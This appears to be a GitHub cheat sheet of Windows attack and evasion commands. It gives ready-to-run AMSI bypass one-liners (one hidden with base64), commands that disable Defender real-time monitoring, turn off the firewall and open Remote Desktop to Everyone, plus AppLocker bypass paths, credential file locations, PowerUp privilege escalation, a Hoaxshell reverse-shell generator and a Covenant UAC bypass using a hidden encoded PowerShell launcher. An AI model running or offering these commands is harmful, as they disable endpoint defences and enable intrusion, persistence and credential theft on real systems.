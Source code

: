 #  Bypass Windows AMSI / AV Evasion
### Shell:
Bypass using commands in the shell
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)

[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

Remove-Item -Path "HKLM:\SOFTWARE\Microsoft\AMSI\Providers\{2781761E-28E0-4109-99FE-B9D127C57AFE}" -Recurse

Set-MpPreference -DisableRealtimeMonitoring $true
```
### AMSITrigger.exe
Using [AMSITrigger.exe](https://github.com/RythmStick/AMSITrigger). This will show powershell triggers and help to modify the payload manually.
```powershell
AmsiTrigger.exe -i shell.ps1
```
### Invoke-Obfuscation
Using [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation). As it encodes the payload in numerous ways.
```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
SET SCRIPTBLOCK <Payload>
OR
SET SCRIPTPATH <URL of payload>
```
### ThreatCheck
Using [ThreatCheck](https://github.com/rasta-mouse/ThreatCheck). We can find the bad chars and then edit it using `hexeditor` in linux to a new file to bypass the defender and AV. By default, the bad chars are at the bottom.
```powershell
ThreatCheck.exe -f Grunt.bin -e AMSI, Defender
```
### Hoaxshell
Using [Hoaxshell](https://github.com/t3l3machus/hoaxshell). We can bypass AV using the payload generated by Hoaxshell.
```powershell
./hoaxshell.py -s <LHOST>
```

# Disable real-time protection on Windows.
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

# Turn Firewall off on Windows:
```bash
netsh advfirewall set allprofiles state off
```
# Remote Desktop Connection:
```bash
net localgroup "Remote Desktop Users" Everyone /Add
```

# Bypass Windows Applocker

- Location.

 `C:\Windows\System32\spool\drivers\color`
 
 - [applocker-bypas-checker.ps1](https://github.com/sparcflow/GibsonBird/blob/master/chapter4/applocker-bypas-checker.ps1) is a powershell script that returns folders for bypass applocker.

```powershell
  .\applocker.ps1
[*] Processing folders recursively in C:\windows
[+]  C:\windows\Tasks
[+]  C:\windows\tracing
[+]  C:\windows\System32\spool\drivers\color
[+]  C:\windows\tracing\ProcessMonitor
```

# Powershell command history

  `\Users\%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

# Users' passwords in base64 encoding.

  `C:\Windows\Panther\Unattend\Unattended.xml`

# Privilege Escalation

- Use [PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1)

   ```powershell
   . .\PowerUp.ps1
  Invoke-AllChecks
  ```
# UAC Bypass (Covenant)
- In covenant, Import PowerShell script named [Helper.ps1](https://github.com/microsoft/PowerShellForGitHub/blob/master/Helpers.ps1).
- Run the cmd: ` PowerShell helper -custom "cmd.exe /c <powershell launcher command>"`
- Few seconds after sending the command we get a new Grunts to our Covenant.

```powershell
(singhx) > PowerShellImport

PowerShell Imported

[07/24/2023 18:28:20 UTC] PowerShell completed

(singhx) > powershell helper -custom "cmd.exe /c powershell -Sta -Nop -Window Hidden -EncodedCommand 
```
